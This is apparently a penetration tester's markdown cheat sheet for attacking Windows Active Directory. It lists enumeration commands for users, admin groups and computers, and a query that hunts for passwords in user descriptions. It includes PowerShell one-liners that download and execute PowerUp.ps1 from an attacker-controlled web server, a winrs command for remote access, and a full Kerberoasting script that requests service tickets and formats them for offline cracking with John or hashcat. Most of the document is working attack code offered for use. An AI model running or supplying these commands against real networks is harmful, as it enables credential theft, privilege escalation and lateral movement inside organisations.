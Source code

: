 # Active Directory

## Enumeration

### Basic Enumeration

*All from Powershell*

- Local user `net user`
- List local admins `net localgroup Administrators`
- List all domain user `net user /domain`
- List all domain groups `net gourp /domain`
- List users in Domain Admin group `net group "Domain Admins" /domain`
- Domain and DC `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`
- DC hostname `cmd.exe /c "echo %logonserver%"`

### PowerView.ps1
#### Download PowerView.ps1
Link 

https://raw.githubusercontent.com/ZeroDayLab/PowerSploit/master/Recon/PowerView.ps1

Or

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

Download and run from attacker's machine

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks
```

Download and run from internet

```
powershell iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Invoke-AllChecks
```

Load PowerView `. ./PowerView.ps1`

#### Domain Controller

- `Get-DomainController`

#### Users

- Get all users `Get-DomainUser`
- Get all users usernames `Get-DomainUser | select -ExpandProperty samaccountname`
- Get users with highest number of logon `GetDomainUser -Properties samaccountname, logoncount`

**Search for users whose desrcription contains keywords**

Get local users

`Get-DomainUser -LDAPFilter "Description=*built*" | Select name, Description`

Get passwords in description

`Get-DomainUser -LDAPFilter "Description=*password*" | Select name, Description`

#### Computers

- List all computers `Get-DomainComputer | select -ExpandProperty dnshostname`

#### Groups

**AdminGroup**

- `Get-DomainGroup *admin* | select samaccountname`

**Domain Admins**

- Show details of Domain Admins group `Get-DomainGroup -Identity "Domain Admins" -Recurse`
- List members of Domain Admins gourp `Get-DomainGroupMember -Identity "Domain Admins" | select -ExpandProperty MemberName`

**Enterprise Admins**

- Show details of Enterprise Admins group `Get-DomainGroup -Identity "Enterprise Admins"`
- List members of Enterprise Admins gourp `Get-DomainGroupMember -Identity "Enterprise Admins" | select -ExpandProperty MemberName`

** Groups user belongs to **

- `Get-DomainGroup "username" | select name`

#### OUs
#### GPUs
### ADModule


## Find Where Current User Has Local Admin

### Find-PSRemotingLocalAdminAccess.ps1

- Where to find this script
- `. ./Find-PSRemotingLocalAdminAccess.ps1`
- `Find-PSRemotingLocalAdminAccess` Output will be list of machines where the current user has admin access

### Connect Using winrs
- CMD `winrs -r:machine01 cmd`

## Issue a request for a single SPN's kerberos ticket

```
Add-Type -AssemblyName System.IdentityModel
$UserSPN = '<add spn here>'
$Domain = '<client domain goes here>'
$Ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $UserSPN
$TicketByteStream = $Ticket.GetRequest()
$TicketHexStream = [System.BitConverter]::ToString($TicketByteStream) -replace '-'
if($TicketHexStream -match 'a382....3082....A0030201(?<EtypeLen>..)A1.{1,4}.......A282(?<CipherTextLen>....)........(?<DataToEnd>.+)') {
    $Etype = [Convert]::ToByte( $Matches.EtypeLen, 16 )
    $CipherTextLen = [Convert]::ToUInt32($Matches.CipherTextLen, 16)-4
    $CipherText = $Matches.DataToEnd.Substring(0,$CipherTextLen*2)


    if($Matches.DataToEnd.Substring($CipherTextLen*2, 4) -ne 'A482') {
        Write-Warning "Error parsing ciphertext for the SPN  $($Ticket.ServicePrincipalName). "
    }
    else {$Hash = "$($CipherText.Substring(0,32))`$$($CipherText.Substring(32))"
    }
}

if($Hash) {
    # JTR jumbo output format - $krb5tgs$SPN/machine.testlab.local:63386d22d359fe..
    if ($OutputFormat -match 'John') {
        $HashFormat = "`$krb5tgs`$$($Ticket.ServicePrincipalName):$Hash"
    }
    else {

        # hashcat output format - $krb5tgs$23$*user$realm$test/spn*$63386d22d359fe...
        $HashFormat = "`$krb5tgs`$$($Etype)`$*$UserSPN`$$Domain`$$($Ticket.ServicePrincipalName)*`$$Hash"
    }
    $hashformat
}```

